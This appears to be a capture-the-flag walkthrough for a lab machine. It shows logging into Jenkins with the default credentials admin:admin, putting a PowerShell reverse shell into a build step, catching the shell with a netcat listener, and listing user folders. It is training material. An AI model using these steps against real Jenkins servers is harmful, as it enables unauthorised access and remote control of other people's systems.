 Let's take a look at port 8080 using a web browser :  
![](https://i.imgur.com/Wiytf1z.jpg)  

This is the login panel for Jenkins. Jenkins is an open source automation server. It helps automate the parts of software development related to 
building, testing, and deploying, facilitating continuous integration and continuous delivery. The first thing to try when pentesting a login panel is default 
credentials. Let's search what are default credentials for jenkins :  
![](https://i.imgur.com/x0Qcatr.jpg)  

We only have the default username which is `admin`. Let's try to also use `admin` as password :  
![](https://i.imgur.com/djCE1DB.jpg)  

It worked ! We successfully logged in to the Jenkins panel.  

**Question : What is the username and password for the log in panel(in the format username:password)**  
**Answer : admin:admin**  

When we go to project configuration, we can edit the build script command :  
![](https://i.imgur.com/3qaySIg.jpg)  

We can put a reverse shell in here. We know it's a windows host so let's try to use a Powershell reverse shell. First, let's start a netcat listener :  
```
attacker@AttackBox:~/Documents/THM/CTF/Alfred$ nc -lnvp 4444
listening on [any] 4444 ...
```

Now, let's change the build script command by writing a Powershell reverse shell :  
![](https://i.imgur.com/Qhm0iAT.jpg)  

Let's apply this settings, start a build, and see if we have a connection on our netcat listener :  
```
attacker@AttackBox:~/Documents/THM/CTF/Alfred$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.226.91] 49248
PS C:\Program Files (x86)\Jenkins\workspace\project> 
```

We have now a reverse shell on the target ! Let's get the user.txt flag :  
```
PS C:\> cd Users
PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/25/2019   8:05 PM            bruce                             
d----        10/25/2019  10:21 PM            DefaultAppPool                    
d-r--        11/21/2010   7:16 AM            Public                            


PS C:\Users> cd bruce
PS C:\Users\bruce> ls


    Directory: C:\Users\bruce


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/25/2019   8:05 PM            .groovy                           
```